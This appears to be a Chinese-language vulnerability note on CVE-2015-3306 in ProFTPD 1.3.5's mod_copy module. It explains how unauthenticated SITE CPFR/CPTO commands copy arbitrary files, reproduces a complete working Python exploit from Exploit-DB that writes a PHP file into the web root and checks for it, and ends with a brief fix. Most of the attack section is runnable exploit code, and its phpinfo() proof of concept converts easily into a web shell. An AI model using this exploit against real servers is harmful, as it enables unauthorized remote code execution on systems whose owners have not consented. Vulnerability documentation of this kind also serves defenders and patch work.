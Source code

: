### 一 漏洞描述
ProFTPD是一个开源，跨平台的FTP服务软件，支持大多数类Unix系统和Windows，是Unix平台下最流行的FTP服务软件之一，且同时支持Pure-FTPD和vsftpd。

ProFTPD 1.3.5中的mod_copy模块允许远程攻击者通过站点cpfr和site cpto命令读取和写入任意文件。
任何未经身份验证的客户端都可以利用这些命令将文件从文件系统的任何部分复制到选定的目标。 复制命令使用ProFTPD服务的权限执行，默认情况下，该服务在“nobody”用户的权限下运行。 通过使用/ proc / self / cmdline将PHP有效负载复制到网站目录，可以实现PHP远程代码执行。

ps: 同源漏洞 CVE-2019-12815，exp未知

### 二 漏洞利用
https://www.exploit-db.com/exploits/49908
```python
# Exploit Title: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)
# Date: 25/05/2021
# Exploit Author: Shellbr3ak
# Version: 1.3.5 
# Tested on: Ubuntu 16.04.6 LTS
# CVE : CVE-2015-3306

#!/usr/bin/env python3

import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /etc/passwd\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto <?php phpinfo(); ?>\r\n') # phpinfo() is just a PoC.
    print(client.recv(1024).decode())
    client.send(b'site cpfr /proc/self/fd/3\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /var/www/html/test.php\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()
```

### 三 漏洞修复
升级proftpd版本大于1.3.5,或编译时禁止mod_copy模块

> 参考链接  
> https://www.exploit-db.com/exploits/49908
